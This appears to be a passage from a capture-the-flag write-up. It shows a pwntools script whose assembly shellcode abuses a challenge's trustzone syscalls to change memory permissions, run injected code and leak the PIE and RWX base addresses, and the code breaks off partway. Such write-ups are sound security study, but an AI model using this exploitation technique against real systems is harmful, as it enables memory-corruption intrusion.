 ![](./pie-map.png)

This is the shellcode to calculate and leak PIE base and RWX base. 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"

code = asm(
r'''
    .intel_syntax noprefix

    /* create shared buffer*/
    mov rbx, 0x1000
    mov rax, 3
    int 0x80 

    /* Call create_trustzone to change perms */
    mov rbx, 0x4000
    lea rcx, [rip + memprot_x86_64]
    mov rax, 8
    int 0x80
    
    mov rbx, 0x4000
    mov rcx, 0x1000
    mov rdx, 0x7
    lea rdi, [rip + password]
    mov rax, 10
    int 0x80

    /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
    mov rdi, 0x4000
    lea rsi, [rip+leak_shared]
    lea rcx, [rip+leak_shared_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
    int 0x80

    /* leak PIE base and RWX base address */
    mov rdi, 0x4000
    lea rsi, [rip+leak_pie_rwx]
    lea rcx, [rip+leak_pie_rwx_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke trustzone to execute pie leak instructions
    int 0x80

    mov rax, 0x6
    int 0x80

    leak_shared:
        /* Call validate_handle 0 */
```
